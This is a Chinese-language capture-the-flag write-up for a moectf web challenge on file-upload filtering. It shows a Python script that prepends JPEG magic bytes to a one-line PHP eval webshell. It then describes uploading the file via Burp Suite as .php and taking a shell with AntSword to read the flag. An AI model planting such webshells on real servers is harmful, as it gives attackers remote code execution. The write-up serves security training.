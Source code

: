 # Web-13｜第十三章 通幽关·灵纹诡影

## 碎碎念

图片马+蚁剑，有点注入的意思
***
## Writeup

题目只是对文件的格式做了非常多的限制，建议扩展名以及十六进制校验码都可以直接在前面直接添加头解决，然后我们做一个 php 一句话木马：

```python
with open('one_word.jpg', 'wb') as f:
    data = b"\xFF\xD8\xFF"
    data += b"\n"
    data += b"<?php @eval($_POST['a']);?>"
    f.write(data)
```

使用 burpsuite 上传文件，将文件后缀名改成 php 使木马生效：

![](../../../../assets/Pasted%20image%2020251029141610.png)


使用蚁剑即可使用密钥 getshell，在 env 中得到 flag：

![](../../../../assets/Pasted%20image%2020251029142155.png)

最终 flag：`moectf{6f7c9ff9-1142-fa44-e422-58aa5e703487}`